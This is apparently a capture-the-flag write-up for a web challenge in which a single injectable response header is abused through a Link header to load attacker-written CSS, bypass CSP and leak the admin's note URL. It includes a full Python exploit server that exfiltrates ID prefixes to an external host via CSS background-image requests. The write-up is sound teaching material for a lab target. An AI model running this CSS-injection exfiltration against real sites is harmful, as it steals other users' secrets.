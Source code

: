 **This is almost same as [this blog article by the challenge author](https://diary.shift-js.info).**

## Flag Location

Looking at the source code, you'll soon find the flag exists in environment variables of `app` service.

```yaml
app:
  build: ./src/app
  restart: always
  ports:
    - "8080:8080"
  environment:
    - FLAG=TSGCTF{DUMMY_FLAG_DO_NOT_SUBMIT_THIS}
    - ADMIN_UID=dummydummydummydummydummydummydummyd
```

Then `app` will store the value of it into internal datastore as follows, where `ADMIN_UID` is session ID `worker` uses:

```go
	posts := []Post{}
	db.Where("uid = ?", os.Getenv("ADMIN_UID")).Find(&posts)
	if len(posts) == 0 {
		db.Create(&Post{
			UID:         os.Getenv("ADMIN_UID"),
			Title:       "flag",
			Description: os.Getenv("FLAG"),
		})
	}
```

We can access to the record once we get the URL for this like (`http://localhost:8080/notes/<blahblah>`). The goal of this challenge is **to leak the URL for this record**.

## Vulnerability

With a closer look at the implementation of `app`, you will find the following middleware allows to inject just a single HTTP response header through query strings for all endpoints:

```go
	r.Use(func(c *gin.Context) {
		k := c.Query("k")
		v := c.Query("v")
		if matched, err := regexp.MatchString("^[a-zA-Z-]+$", k); matched && err == nil && v != "" {
			c.Header(k, v)
		}
		c.Next()
	})
```

To put it more simply, this challenge is: **"Can you steal another user's secrets using a vulnerability that allows you to inject _just a single HTTP response header_?"**

## Intended Solution

Considering that who knows the URL of a note with the flag is `worker`, we need to abuse the vulnerability to control the behaviour of `worker`. This is not trivial since the vulnerability is not kinda XSS. **However, here comes a `Link` header!**

### Link Header

[Web Linking](https://datatracker.ietf.org/doc/html/rfc8288) specification defines `Link` header, which and behaves almost the same as `<link>` tag in HTML, although it is supported only by Firefox as of now. For example, in Firefox, the following response header loads `/foo.css` as a stylesheet as `<link rel="stylesheet" href="/foo.css">` does:

```
Link: </foo.css>; rel="stylesheet"; type="text/css"
```

Suppose that you can inject arbitrary header to a response through query params, you can inject arbitrary CSS to an arbitrary page of `app`! Once you can inject a CSS into the `/`, which shows the URLs of one's notes as follows, you can leak them with classical techniques of CSS Injection:

```html
<li><a href="/notes/nxwoufD9Lk">aa</a></li>
```

Note that you can make `worker` access any page of `app` with `/tell` endpoint with any query params.

### CSP Bypass

All responses from `app` are served with the following `Content-Security-Policy` header, preventing us from loading cross-origin stylesheets:

```go
	r.Use(func(c *gin.Context) {
		c.Header("Content-Security-Policy", "script-src 'self'; style-src 'self'; base-uri 'none'")
		c.Next()
	})
```

It means that we need to bypass this CSP to inject CSS successfully. However, You'll know this is trivial since `style-src` is `'self'` and you can create a resource with arbitrary string by using `POST /notes`. In detail, you can bypass CSP by (1) creating a note with css strings to inject and (2) using the note in `Link` header value as follows:

```
http://localhost:8080/?k=Link&v=%3C%2F(<URL of a note with styles to inject>)%3E%3B%20rel%3D%22stylesheet%22%3B%20type%3D%22text%2Fcss%22
```

### Example Exploit

Here's an example exploit:

```python
from flask import Flask, request
import requests
import urllib.parse
import string

# URL base to attack
TARGET_BASE = "http://localhost:8080"

# URL base of this python app visible from the challenge server
EXPLOIT_BASE_ADDR = "http://host.docker.internal:1337"

LEAK_LENGTH = 10
CHAR_CANDIDATES = string.ascii_letters + string.digits

app = Flask(__name__)
s = requests.Session()

def build_payload(prefix: str, candidates: "List[str]"):
    global EXPLOIT_BASE_ADDR
    assert EXPLOIT_BASE_ADDR != "", "EXPLOIT_BASE_ADDR is not set"

    payload = "{}"
    for candidate in candidates:
        id_prefix_to_try = prefix + candidate
        matcher = ''.join(map(lambda x: '\\' + hex(ord(x))
                              [2:], '/notes/' + id_prefix_to_try))
		payload += "a[href^=" + matcher + \
            "] { background-image: url(" + EXPLOIT_BASE_ADDR + \
            "/leak?q=" + urllib.parse.quote(id_prefix_to_try) + "); }"
    return payload


def post_note(title: str, description: str) -> str:
    r = s.post(TARGET_BASE + "/notes", data={
        "title": title,
        "description": description,
    }, headers={
        "content-type": "application/x-www-form-urlencoded"
    }, allow_redirects=False)
    assert r.status_code == 302, "invalid status code: {}".format(
        r.status_code)
    return r.headers['Location'].split('/notes/')[-1]


def report_note_as_stylesheet(id: str) -> None:
    header_value = '</notes/{}>; rel="stylesheet"; type="text/css"'.format(id)
    r = s.post(TARGET_BASE + "/tell", data={
        "path": "/?k=Link&v={}".format(urllib.parse.quote(header_value)),
    }, allow_redirects=False)
    assert r.status_code == 302, "invalid status code: {}".format(
        r.status_code)
    return None


@app.route("/start")
def start():
    p = build_payload("", CHAR_CANDIDATES)
    exploit_id = post_note("exploit", p)
    report_note_as_stylesheet(exploit_id)
    print("[info]: started exploit with a new note: {}/notes/{}".format(TARGET_BASE, exploit_id))
    return ""


@app.route("/leak")
def leak():
    leaked_id = request.args.get('q')
    if len(leaked_id) == LEAK_LENGTH:
        print("[+] leaked (full ID): {}".format(leaked_id))
        r = s.get(TARGET_BASE + "/notes/" + leaked_id)
        print(r.text)
    else:
        print("[info] leaked: {}{}".format(
            leaked_id, "*" * (LEAK_LENGTH - len(leaked_id))))

        p = build_payload(leaked_id, CHAR_CANDIDATES)
        exploit_id = post_note("exploit", p)
        report_note_as_stylesheet(exploit_id)
        print("[info]: invoked crawler with a new note: " + exploit_id)
    return ""


if __name__ == "__main__":
    print("[info] running app ...")
    app.run(host="0.0.0.0", port=1337)
```

When you are running the distributed app locally, you can run this exploit code for the app by running `python <path/to/code> && curl http://localhost:1337/start`. Note that you may need to change the definition of `worker` service as follows:

```yaml
worker:
  build: ./src/worker
  depends_on:
    - redis
  restart: always
  environment:
    - ADMIN_UID=dummydummydummydummydummydummydummyd
  extra_hosts:
    - "host.docker.internal:host-gateway"
```
